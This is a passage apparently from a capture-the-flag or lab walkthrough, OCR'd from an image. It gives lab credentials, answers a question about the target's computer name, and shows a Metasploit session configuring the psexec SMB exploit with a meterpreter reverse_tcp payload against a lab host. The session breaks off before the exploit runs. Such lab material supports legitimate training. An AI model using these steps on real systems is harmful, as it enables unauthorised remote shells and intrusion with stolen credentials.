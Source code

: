         Username: ballen
        Password: Password1

# Answer the questions below
What is the computer name?   `ACME-TEST`
```
msf6 > use exploit/windows/smb/psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/psexec) > show options

Module options (exploit/windows/smb/psexec):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   RHOSTS                              yes       The target host(s), see https
                                                 ://docs.metasploit.com/docs/u
                                                 sing-metasploit/basics/using-
                                                 metasploit.html
   RPORT              445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTI                   no        Service description to be use
   ON                                            d on target for pretty listin
                                                 g
   SERVICE_DISPLAY_N                   no        The service display name
   AME
   SERVICE_NAME                        no        The service name
   SMBDomain          .                no        The Windows domain to use for
                                                  authentication
   SMBPass                             no        The password for the specifie
                                                 d username
   SMBSHARE                            no        The share to connect to, can
                                                 be an admin share (ADMIN$,C$,
                                                 ...) or a normal read/write f
                                                 older share
   SMBUser                             no        The username to authenticate
                                                 as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thr
                                        ead, process, none)
   LHOST     10.10.243.229    yes       The listen address (an interface may b
                                        e specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(windows/smb/psexec) > set RHOSTS 10.10.187.150
RHOSTS => 10.10.187.150
msf6 exploit(windows/smb/psexec) > set SMBUser ballen
SMBUser => ballen
msf6 exploit(windows/smb/psexec) > set SMBPass Password1
```